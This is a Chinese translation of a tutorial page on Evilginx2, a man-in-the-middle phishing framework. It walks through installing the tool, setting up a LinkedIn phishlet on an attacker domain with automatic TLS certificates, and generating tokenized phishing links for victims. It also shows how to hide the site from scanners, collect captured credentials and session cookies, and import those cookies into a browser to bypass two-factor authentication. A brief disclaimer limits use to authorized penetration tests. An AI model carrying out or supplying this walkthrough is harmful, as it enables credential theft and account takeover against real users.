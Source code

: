 # evil ginx 2–独立的 MITM 攻击框架，用于网络钓鱼登录凭据和会话 Cookies，允许绕过双因素身份验证

> 原文：<https://kalilinuxtutorials.com/evilginx2-mitm-attack/>

**Evilginx2** 是一个中间人攻击框架，用于钓鱼登录凭证和会话 cookies，从而允许绕过双因素身份验证保护。

该工具是 2017 年发布的 Evilginx 的继任者，该工具使用 nginx HTTP server 的自定义版本来提供中间人功能，以充当浏览器和钓鱼网站之间的代理。目前的版本完全是作为一个独立的应用程序在 GO 中编写的，它实现了自己的 HTTP 和 DNS 服务器，这使得它非常容易设置和使用。

## **eviginx 2 安装**

您可以为您的架构使用预编译的二进制包，也可以从源代码编译 **evilginx2** 。你将需要一个外部服务器来托管你的 **evilginx2** 安装。

Evilginx 在最基本的 Debian 8 VPS 上运行得非常好。

**也读作[imR0T——加密给你的 Whatsapp 联系人](https://kalilinuxtutorials.com/imr0t-encryption-whatsapp-contact/)**

#### **从源安装**

为了从源代码编译，请确保您已经安装了版本至少为 **1.10.0** 的 **GO** (从此处获取)并且`**$GOPATH**`环境变量设置正确(def。 **`$HOME/go`** )。

安装完成后，将此添加到您的`**~/.profile**`中，假设您在 **`/usr/local/go`** 中安装了 **GO** :

```
`export GOPATH=$HOME/go
export PATH=$PATH:/usr/local/go/bin:$GOPATH/bin` 
```

然后用 **`source ~/.profiles`** 加载。

现在你应该准备好安装 **evilginx2** 了。请遵循以下说明:

```
**sudo apt-get install git make
go get -u github.com/kgretzky/evilginx2
cd $GOPATH/src/github.com/kgretzky/evilginx2
make** 
```

您现在可以从本地目录运行 **evilginx2** ,如下所示:

```
**sudo ./bin/evilginx -p ./phishlets/** 
```

或者全局安装:

```
`sudo make install
sudo evilginx` 
```

以上说明也可用于将 **evilginx2** 更新至最新版本。

#### **用 Docker 安装**

您可以从 Docker 中启动 **evilginx2** 。首先构建容器:

```
**docker build . -t evilginx2** 
```

然后，您可以运行容器:

```
`docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2` 
```

Phishlets 在`/app/phishlets`被加载到容器中，该容器可以作为一个卷进行安装和配置。

#### **从预编译的二进制包安装**

从这里拿起你想要的包裹，放在你的箱子上。然后做:

```
**unzip <package_name>.zip -d <package_name>
cd <package_name>** 
```

如果要进行系统范围的安装，请使用具有 root 权限的安装脚本:

```
**chmod 700 ./install.sh
sudo ./install.sh
sudo evilginx** 
```

或者从当前目录启动 **evilginx2** (您还需要 root 权限):

```
**chmod 700 ./evilginx
sudo ./evilginx** 
```

## **用途**

确保**`TCP 443`**`**TCP 80**`和`**UDP 53**`端口上没有服务监听。您可能需要关闭 apache 或 nginx 以及任何可能正在运行的用于解析 DNS 的服务。 **evilginx2** 会在启动时告诉你它是否无法打开这些端口上的监听套接字。

默认情况下， **evilginx2** 会在`**./phishlets/**`目录中查找网页小册子，之后在 **`/usr/share/evilginx/phishlets/`** 中查找。如果您想要指定一个自定义路径来加载网页仿冒网站，请在启动该工具时使用`**-p <phishlets_dir_path>**`参数。

```
`Usage of ./evilginx:
  -debug
        Enable debug output
  -developer
        Enable developer mode (generates self-signed certificates for all hostnames)
  -p string
        Phishlets directory path` 
```

你应该看到 **evilginx2** 的标志，并提示输入命令。如果您想查看可用的命令或关于它们的更多详细信息，请键入 **`help`** 或 **`help <command>`** 。

## **入门**

要启动并运行，您需要首先做一些设置。

此时，我假设您已经注册了一个域(姑且称之为 **`yourdomain.com`** )，并且在您的域提供商的管理面板中设置了域名服务器(包括`ns1`和`ns2`)以指向您的服务器的 IP(例如 10.0.0.1):

```
`ns1.yourdomain.com = 10.0.0.1
ns2.yourdomain.com = 10.0.0.1` 
```

使用以下命令设置服务器的域和 IP:

```
`config domain yourdomain.com
config ip 10.0.0.1` 
```

现在，您可以设置想要使用的 phishlet。为了这个简短的指南，我们将使用一个 LinkedIn phishlet。为网页仿冒网站设置主机名(显然必须包含您的域名):

```
`phishlets hostname linkedin my.phishing.hostname.yourdomain.com` 
```

现在您可以`enable`phish let，如果在本地没有找到您选择的主机名的证书，它将自动检索 LetsEncrypt SSL/TLS 证书:

```
**phishlets enable linkedin** 
```

您的钓鱼网站现已上线。想想这个 URL，您希望受害者在成功登录后被重定向到该 URL，并获得如下钓鱼 URL(受害者将被重定向到`**https://www.google.com**`):

```
`phishlets get-url linkedin https://www.google.com` 
```

正在运行的网页仿冒网站只会对标记化的链接做出响应，因此任何扫描您的主域的扫描器都将被重定向到指定为 **`config`** 下的 **`redirect_url`** 的 URL。如果你想隐藏你的网页仿冒网站，让它甚至对有效的令牌化网页仿冒网址都不作出响应，使用`**phishlet hide/unhide <phishlet>**`命令。

您可以使用以下工具监控捕获的凭据和会话 cookies:

```
`sessions` 
```

要获得关于捕获会话的详细信息，使用会话 cookie 本身(它将以 JSON 格式打印在底部)，选择它的会话 ID:

```
`sessions <id>` 
```

可以使用 EditThisCookie 扩展将捕获的会话 cookie 复制并导入到 Chrome 浏览器中。

如果你想让 **evilginx2** 在你退出服务器后继续运行，你应该在`screen`会话中运行它。

## **免责声明**

我们非常清楚 Evilginx 可能被用于邪恶的目的。这项工作只是演示了熟练的攻击者可以做什么。防御方有责任考虑此类攻击，并找到保护其用户免受此类网络钓鱼攻击的方法。Evilginx 应仅在合法的渗透测试任务中使用，并获得潜在相关方的书面许可。

[T2**贷项:古巴格雷茨基**](https://github.com/kgretzky/evilginx2)